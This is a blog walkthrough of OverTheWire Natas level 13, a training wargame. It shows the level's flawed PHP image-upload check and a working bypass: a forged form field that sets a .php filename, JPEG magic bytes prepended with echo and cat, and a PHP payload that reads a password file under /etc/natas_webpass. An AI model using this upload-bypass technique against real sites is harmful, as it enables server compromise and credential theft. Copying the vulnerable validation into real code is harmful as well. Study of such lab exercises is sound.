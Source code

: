 ```yaml
---
layout: post
title: "OverTheWire Natas Level 13"
date: 2012-11-12T06:44:00-05:00
comments: true
categories:
 - overthewire
 - wargames
 - exif
 - natas
 - php
 - hacking
---
```


[Level 13](http://www.overthewire.org/wargames/natas/natas13.shtml) of [OverTheWire's](http://www.overthewire.org) Natas wargame is extremely similar to Level 12. The only difference now, is that it's validating that the file is in fact an image. This however is flawed, as exif data can be faked.

<!-- more -->

It starts out with a similar upload prompt as last time.

{% img /images/natas13_1.png %}

The source code is super similar to last time.

```
<html> 
<head><link rel="stylesheet" type="text/css" href="http://www.overthewire.org/wargames/natas/level.css"></head> 
<body> 
<h1>natas13</h1> 
<div id="content"> 
For security reasons, we now only accept image files!<br/><br/> 

<?  

function genRandomString() { 
    $length = 10; 
    $characters = "0123456789abcdefghijklmnopqrstuvwxyz"; 
    $string = "";     

    for ($p = 0; $p < $length; $p++) { 
        $string .= $characters[mt_rand(0, strlen($characters)-1)]; 
    } 

    return $string; 
} 

function makeRandomPath($dir, $ext) { 
    do { 
    $path = $dir."/".genRandomString().".".$ext; 
    } while(file_exists($path)); 
    return $path; 
} 

function makeRandomPathFromFilename($dir, $fn) { 
    $ext = pathinfo($fn, PATHINFO_EXTENSION); 
    return makeRandomPath($dir, $ext); 
} 

if(array_key_exists("filename", $_POST)) { 
    $target_path = makeRandomPathFromFilename("upload", $_POST["filename"]); 


        if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) { 
        echo "File is too big"; 
    } else if (! exif_imagetype($_FILES['uploadedfile']['tmp_name'])) { 
        echo "File is not an image"; 
    } else { 
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) { 
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{ 
            echo "There was an error uploading the file, please try again!"; 
        } 
    } 
} else { 
?> 

<form enctype="multipart/form-data" action="index.php" method="POST"> 
<input type="hidden" name="MAX_FILE_SIZE" value="1000" /> 
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" /> 
Choose a JPEG to upload (max 1KB):<br/> 
<input name="uploadedfile" type="file" /><br /> 
<input type="submit" value="Upload File" /> 
</form> 
<? } ?> 
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div> 
</div> 
</body> 
</html> 
```

Just like last time, I saved the HTML down to my local machine, and made 2 changes, for the url, and the filename. 

```
<html>
<head><link rel="stylesheet" type="text/css" href="http://www.overthewire.org/wargames/natas/level.css"></head>
<body>
<h1>natas13</h1>
<div id="content">
For security reasons, we now only accept image files!<br/><br/>


<form enctype="multipart/form-data" action="http://natas13.natas.labs.overthewire.org/index.php" method="POST">
<input type="hidden" name="MAX_FILE_SIZE" value="1000" />
<input type="hidden" name="filename" value="file.php" />
Choose a JPEG to upload (max 1KB):<br/>
<input name="uploadedfile" type="file" /><br />
<input type="submit" value="Upload File" />
</form>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

The main difference to get around the exif changing in this case, is to put the JPEG magic-bytes into the beginning of the file. I found the JPEG magic-bytes by simply googling the [JPEG](http://www.digitalpreservation.gov/formats/fdd/fdd000018.shtml) file format</a>. 

I first created a small file that contained the magic bytes. 

```
mandreko$ echo -e "\xff\xd8\xff\xe0" > jpeg_magic
```

Next, I created my PHP script to upload (same as last level, except a new file to read). 

```
<?php
$file = file_get_contents('/etc/natas_webpass/natas14');
echo "\n" . $file;
?>
```

Then to combine these files, I just used "cat". 

```
mandreko$ cat jpeg_magic upload.php > upload2.php
```

I then uploaded "upload2.php" using my local HTML form that I created.

{% img /images/natas13_2.png %}

Just like that, it let me past the logic to verify it was an image type. Once I clicked on the link to the uploaded file, it showed me the magic-bytes, followed by the password to the next level.

{% img /images/natas13_3.png %}
